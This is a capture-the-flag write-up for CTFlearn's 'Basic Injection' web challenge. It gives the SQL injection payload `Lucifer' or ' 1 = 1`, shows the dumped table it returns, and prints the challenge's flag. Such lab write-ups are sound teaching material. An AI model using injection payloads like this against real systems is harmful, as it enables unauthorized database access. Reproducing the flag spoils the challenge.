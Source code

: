 <h1> Basic Injection </h1>
<hr>

Problem Statement: <br>
See if you can leak the whole database using what you know about SQL Injections. <br>

You need to find the flag using basic SQL Injections to this insecure website and leaking the whole database.

Step-1: <br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it.

Step-2: <br>
Inspect the input text box. <br>
You will find the line given below. <br>
<code><!-- Try some names like Hiroki, Noah, Luke --></code>

Step-3: <br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br>
I submitted the input <code> Lucifer' or ' 1 = 1 </code> and got the following output: <br>
<code>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</code>

Step-4:
The desired flag <code>CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.

